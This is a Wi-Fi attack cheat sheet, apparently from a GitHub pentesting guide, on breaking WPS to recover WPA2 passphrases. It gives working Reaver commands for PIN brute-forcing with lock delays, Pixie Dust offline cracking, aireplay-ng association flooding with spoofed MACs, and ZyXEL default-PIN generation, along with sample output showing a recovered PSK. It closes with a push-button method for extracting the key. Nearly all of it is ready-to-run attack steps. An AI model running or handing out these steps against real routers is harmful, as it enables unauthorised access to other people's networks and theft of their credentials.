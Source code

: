 #### 3.1. Reaver repos
```
github.com/t6x/reaver-wps-fork-t6x (reaver with wash and default pin generators / PixieWPS)
github.com/gabrielrcouto/reaver-wps (reaver with mac changer)
github.com/wiire-a/pixiewps (offline PixieWPS cracking tool)
```


#### 3.2. Basic usage
```
# iface='wlan0' # monitor mode
# bssid='DE:AD:BE:EF:00:01'
# ch=11
# reaver -i $iface -b $bssid -c $ch -p 12345670
# reaver -i $iface -b $bssid -c $ch -r 1:330 --lock-delay=300 -vvv
```
Notes:
- attempt 1 PIN at 300s with lock delay of another 300s
- remember to add more seconds on a case to case basis
- constraints: `[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking`


#### 3.3. PixieWPS attack
```
# reaver -i wlan0 -b <BSSID> -c 5 --pixie-dust  -vv
Reaver v1.6.4-git-21-g9bae55b WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
...
[+] Received M1 message
[+] Sending M2 message
executing pixiewps -e [CUT] -s [CUT] -z [CUT] -a [CUT] -n [CUT] -r [CUT]
Pixiewps 1.2
...
```


#### 3.4. Reaver attack with MAC address changer

1) Configure tool
```
# git clone https://github.com/gabrielrcouto/reaver-wps && cd reaver-wps/src && ./configure && make
```

2) Associate
```
# killall aireplay-ng
# bssid='AA:BB:CC:DD:EE:FF'   # target BSSID
# station='ZZ:ZZ:ZZ:ZZ:ZZ:Z'  # your WLAN MAC w/o the last character
# for i in {0..9}; do aireplay-ng wlan0 -1 120 -a $bssid --ignore-negative-one -h $station$i & done
# for i in {A..F}; do aireplay-ng wlan0 -1 120 -a $bssid --ignore-negative-one -h $station$i & done
```

3) Run attack
```
# bssid='AA:BB:CC:DD:EE:FF'   # target BSSID
# ./reaver -i wlan0 -c 5 -b $bssid --mac-changer --no-nacks --win7 --no-associate -vv
```



#### 3.5. Reaver with ZyXEL default PIN generator

Info: `http://www.zyxel.com/support/announcement_wps_brute_force_attack.shtml`
Prerequisites: 
```
# git clone https://github.com/t6x/reaver-wps-fork-t6x && cd reaver-wps-fork-t6x
# git checkout master-old && cd src && ./configure && make
```

1) WPS PIN generator for ZyXEL
```
# bash wpsscan.sh | grep -i zyxel
DE:AD:BE:EF:99:99     2       -62   1.0          No          ZyXEL_9999
# reaver 2>&1 | grep -i zyxel
	-W, --generate-pin              Default Pin Generator [1] Belkin [2] D-Link [3] Zyxel
```

2) Generate PIN
```
# reaver -i wlan0 -b DE:AD:BE:EF:99:99 -c 2 --generate-pin 3 --dh-small --lock-delay=300
[--- SNIP ---]
[+] Waiting for beacon from DE:AD:BE:EF:99:99
[+] Associated with DE:AD:BE:EF:99:99 (ESSID: ZyXEL_9999)
...
[P] WPS Model Number: RT2860
[P] Access Point Serial Number: 12345678
...
[Pin Gen] Pin Generated : 30876927
[Pin Gen] Pin Generated (+1): 30876934
[Pin Gen] Pin Generated (-1): 30876910
```

3) Use default PIN to get WPA2 password
```
# reaver 2>&1 | grep -i 'use .* pin'
	-p, --pin=<wps pin>             Use the specified 4 or 8 digit WPS pin 
# reaver -i wlan0 -b DE:AD:BE:EF:99:99 -c 2 --pin 30876927
...
[+] Waiting for beacon from DE:AD:BE:EF:99:99
[+] Associated with DE:AD:BE:EF:99:99 (ESSID: ZyXEL_9999)
...
[+] WPS PIN: '30876927'
[+] WPA PSK: '4AYYM4XXXXXXX'
[+] AP SSID: 'ZyXEL_9999'
```


#### 3.6. WPS push button method (social)

Prerequisites:
- access to the administrative web interface (*WPS Add Client*)
- physical access to the router to push the WPS button (no WPA2 credentials on the label)

1) WPA supplicant config
```
cat << EOF > /tmp/PBC.conf
ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=root
update_config=1
EOF
```

2) Run `wpa_supplicant`
```
# killall wpa_supplicant 2>/dev/null && killall dhclient 2>/dev/null
# wpa_supplicant -c /tmp/PBC.conf -i wlan0
...
wlan0: WPA: Key negotiation completed with 40:65:a3:eb:50:76 [PTK=CCMP GTK=CCMP]
wlan0: CTRL-EVENT-CONNECTED - Connection to 40:65:a3:eb:50:76 completed [id=0 id_str=]
```

3) Initiate WPS-PBC connection
```
# wpa_cli -i wlan0 wps_pbc any
OK
```

4) Grab the WPA2 key
```
# cat /tmp/PBC.conf
ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=root
update_config=1

network={
    ssid="DeadBeef"
    psk="DeadBeefPSK-LOL#1#"
    proto=RSN
    key_mgmt=WPA-PSK
    pairwise=CCMP
    auth_alg=OPEN
}
```
